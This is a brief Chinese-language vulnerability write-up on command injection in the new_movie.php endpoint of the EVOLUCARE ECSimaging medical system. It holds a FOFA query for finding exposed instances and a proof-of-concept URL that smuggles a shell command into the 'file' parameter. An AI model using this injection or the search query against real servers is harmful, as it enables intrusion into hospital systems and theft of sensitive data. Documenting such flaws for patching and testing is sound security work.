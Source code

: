 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## FOFA

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241447391.png)